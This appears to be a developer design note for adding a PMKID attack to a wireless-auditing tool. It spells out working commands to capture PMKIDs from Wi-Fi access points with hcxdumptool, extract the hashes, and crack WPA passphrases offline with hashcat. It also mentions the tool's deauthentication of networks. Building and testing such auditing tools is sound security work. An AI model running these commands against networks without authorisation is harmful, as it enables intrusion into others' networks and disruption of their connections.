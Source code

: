 ### PMKID Attack

See https://hashcat.net/forum/thread-7717.html

### Steps

1. Start `hcxdumptool` (daemon)
   * `sudo hcxdumptool -i wlan1mon -o pmkid.pcapng -t 10 --enable_status=1`
   * Should also use `-c <channel>`, `--filterlist` and `--filtermode` to target a specific client
   * Could be a new attack type: `wifite.attack.pmkid`
2. Detect when PMKID is found.
   * `hcxpcaptool -z pmkid.16800 pmkid.pcapng`
   * Single-line in pmkid.16800 will have PMKID, MACAP, MACStation, ESSID (in hex).
3. Save `.16800` file (to `./hs/`? or `./pmkids/`?)
   * New result type: `pmkid_result`
   * Add entry to `cracked.txt`
4. Run crack attack using hashcat:
   * `./hashcat64.bin --force -m 16800 -a0 -w2 path/to/pmkid.16800 path/to/wordlist.txt`

### Problems

* Requires latest hashcat to be installed. This might be in a different directory.
   * Use can specify path to hashcat? Yeck...
   * % hashcat -h | grep 16800
   * 16800 | WPA-PMKID-PBKDF2
* If target can't be attacked... we need to detect this failure mode.
   * Might need to scrape `hcxdumptool`'s output
   * Look at `pmkids()` func in .bashrc
   * hcxpcaptool -z OUTPUT.16800 INPUT.pcapng > /dev/null
   * Check OUTPUT.16800 for the ESSID.
* Wireless adapter support is minimal, apparently.
* hcxdumptool also deauths networks and captures handshakes... maybe unnecessarily


